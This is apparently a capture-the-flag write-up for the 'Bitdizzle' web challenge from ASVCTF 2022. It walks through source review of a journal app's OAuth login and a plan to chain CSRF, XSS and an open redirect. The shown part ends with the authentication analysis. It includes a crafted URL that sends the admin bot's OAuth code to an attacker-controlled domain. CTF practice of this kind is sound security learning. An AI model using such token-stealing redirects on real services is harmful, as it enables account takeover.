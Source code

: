 # ASVCTF 2022 - Bitdizzle Writeup
- Type - Web
- Name - Bitdizzle
- Points - 300

## Description
```markdown
A popular journal writing app just came out. Can you read admin's journal?

https://bitdizzle.xyz/

Files:
* accounts/accounts.py
* journal/journal.py
```

(find provided files in [src](src/) folder)

## Writeup
This solution chained together multiple exploits, including CSRF, XSS, and an open redirect to steal another user's contents! I was lucky enough to have a teammate who was able to help me chain all of these together correctly because I struggled for quite a while with the CSRF vulnerability. Note that the goal is to read the journal of the `admin` account, which contains the flag.

Since they gave us the main code snippets for both the `accounts` and `journal` subdomains of bitdizzle.xyz, that meant source code review to check for bugs that we can exploit. 

### Authentication
The first thing to understand is how authentication works on this site - accessing any page without authentication will redirect you to the home page of accounts.bitdizzle.xyz, where you log in simply by entering a username (no password). Also note that you can't sign in with the `admin` account name. Once you sign in, there are two options presented - generate an OAuth token that allows you to sign into journal.bitdizzle.xyz, or send a link to the admin to visit. 

To generate an OAuth token for the account logged in, a GET request is made to the `/oauth_authorize` endpoint with two parameters - `client_id` (a static, site-wide code) and `redirect_uri`, which must start with `https://journal.bitdizzle.xyz/`. The default value for `redirect_uri` is `https://journal.bitdizzle.xyz/oauth_callback`. The server will verify both the `client_id` and `redirect_uri`, then generate a code attached to the account logged in, append it as a parameter to the `redirect_uri`, and automatically redirect the user to the `redirect_uri`. 

To be authenticated on journal.bitdizzle.xyz, the `/oauth_callback` endpoint must be accessed and a code provided. The journal server will then send a request to `https://accounts.bitdizzle.xyz/oauth_token`, and the accounts server will respond with what username (if any) is associated with the provided code.

To exploit the authentication system, all we need is an OAuth token for the `admin` user. The easiest way to do that is send the admin bot to the following URL - `https://accounts.bitdizzle.xyz/oauth_authorize?client_id=f45735d5a3b056b6&redirect_uri=https%3A%2F%2Fattacker.controller.domain%2Fadmin_oauth_token`. This would make the admin user automatically create an OAuth code to sign in and then send the admin to whatever URL we determine. If the URL is attacker-controlled (meaning we can see requests made to it), then we can capture the OAuth code and send it to the journal server, allowing us to be signed in as the admin user and see all the journal entries. 
